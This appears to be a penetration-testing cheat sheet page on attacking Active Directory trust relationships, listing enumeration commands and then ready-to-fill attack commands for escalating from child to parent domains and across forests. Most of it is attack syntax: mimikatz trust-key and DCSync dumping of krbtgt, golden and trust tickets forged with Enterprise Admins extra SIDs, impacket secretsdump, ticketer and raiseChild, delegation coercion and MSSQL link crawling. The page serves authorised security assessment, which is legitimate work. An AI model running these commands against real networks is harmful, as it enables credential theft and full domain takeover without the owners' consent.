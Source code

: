 ```yaml
---
title: "Trusts"
description: "Trusts techniques and commands for Active Directory security assessment."
---
```

# Trusts
## Enumeration
- `nltest.exe /trusted_domains`
- `([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()`
- `Get-DomainTrust -Domain <domain>`
- `Get-DomainTrustMapping`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> trusts`
- `sharphound.exe -c trusts -d <domain>`
  - `MATCH p=(:Domain)-[:TrustedBy]->(:Domain) RETURN p`
- Get Domains SID
  - `Get-DomainSID -Domain <domain> Get-DomainSID -Domain <target_domain>` 
  - `lookupsid.py -domain-sids <domain>/<user>:<password>'@<dc> 0 lookupsid.py -domain-sids <domain>/<user>:<password>'@<target_dc> 0`

## Child->Parent
- Trust Key *PassTheTicket*{: .highlight}
  - `mimikatz lsadump::trust /patch`
    - `mimikatz kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /aes256:<trust_key_aes256> /sids:<target_domain_sid>-519 /service:krbtgt /target:<target_domain> /ptt`
  - `secretsdump.py -just-dc-user '<parent_domain>$'   <domain>/<user>:<password>@<dc_ip>`
    - `ticketer.py -nthash <trust_key> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 -spn krbtgt/<parent_domain> trustfakeuser`

- Golden Ticket *PassTheTicket*{: .highlight}
  - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
    - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt`
  - `raiseChild.py <child_domain>/<user>:<password>`
  - `ticketer.py -nthash <child_krbtgt_hash> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 goldenuser`

- Unconstrained delegation
  - coerce parent_dc on child_dc domain *unconstrained delegation*{: .highlight}

## Parent->Child
- same as Child to parent

## External Trust 
- DomainA <--> DomainB trust (B trust A, A trust B)
  - from A to B FOREST_TRANSITIVE
    - password reuse *lat move (creds/pth/...)*{: .highlight}
    - Foreign group and users *ACL*{: .highlight}
      - Users with foreign Domain Group Membership
        - `MATCH p=(n:User {domain:"<DOMAIN.FQDN>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain RETURN p`
      - Group with foreign Domain Group Membership
        - `MATCH p=(n:Group {domain:"<DOMAIN.FQDN>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain RETURN p`
    - SID History on B *PassTheTicket*{: .highlight}
      - Golden ticket
        - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
          - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID>-<GROUP_SID_SUP_1000> /ptt`
        - `ticketer.py -nthash <krbtgt> -domain-sid <domain_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> fakeuser`
      - Trust ticket
        - `secretsdump.py -just-dc-user '<domainB>' <domainA>/<user>:'<password>'@<dc_a>`
          - `ticketer.py -nthash <trust_hash> -domain-sid <sid_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> -spn krbtgt/<domain_a> fakeuser`
    - ADCS abuse *ADCS*{: .highlight}
  - from A to B is FOREST_TRANSITIVE|TREAT_AS_EXTERNAL
      - Unconstrained delegation
        - coerce dc_b on dc_a *unconstrained delegation*{: .highlight}
        
- DomainA <-- DomainB trust (B trust A / A access B)
  - Same as double trust, but no unconstrained delegation as B can't connect to A

- DomainA --> DomainB trust (A trust B / B access A)
  - password reuse *lat move (creds/pth/...)*{: .highlight}

## Mssql links *MSSQL*{: .highlight}
- MSSQL trusted links doesn't care of trust link
  - `Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
    - trustlink
      - sp_linkedservers
        - use_link